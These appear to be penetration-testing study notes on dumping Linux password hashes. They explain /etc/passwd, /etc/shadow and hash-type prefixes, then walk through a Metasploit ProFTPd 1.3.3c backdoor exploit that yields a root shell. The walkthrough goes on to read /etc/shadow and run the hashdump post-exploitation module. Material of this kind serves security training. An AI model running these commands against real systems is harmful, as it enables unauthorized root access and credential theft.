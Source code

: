 ```yaml
---
description: Dumping Linux Password Hashes
---
```


# d - Linux Credential Dumping

## **Linux Password Hashes**

* Linux has multi-user support and as a result, multiple users can assess the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
* All of the information for all accounts on Linux is stored in the passwd file located in: /etc/passwd
* We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system.
* All the encrypted passwords for the users are stored in the shadow file. It can be found in the following directory: /etc/shadow
* The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.
* The passwd file give us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($).

| Value | Hashing Algorithm |
| ----- | ----------------- |
| $1    | MD5               |
| $2    | Blowfish          |
| $5    | SHA-256           |
| $6    | SHA-512           |

## **Practical Demonstration**

1 - identify ip a target.

2 - `nmap -sV $ip`&#x20;

3 search ProFTPd 1.3.3c.

{% code overflow="wrap" %}
```bash
# service postgresql start && msfconsole
search ProFTPd
use /exploit/unix/ftp/proftpd_133c_backdoor
options
setg RHOSTS $ip
exploit
# we get a cmd shell session, which we can upgrade to a meterpreter session.
bin/bash -i
# we get root bash session.
ctrl+z  # minimize the session
sessions  # list all sessions.
sessions -u 1  # upgrade to a meterpreter session.
sessions 2  # switch to the new meterpreter session.
sysinfo
getuid  # uid is set to (uid=0) which is root.

# method 1
cat /etc/shadow # dumps the password hash.

# method 2
search hashdump # search the hashdump module in metasploit.
use post/linux/gather/hashdump
options
set SESSIONS 2
run  # dumps list of users and their hashes.
```
{% endcode %}



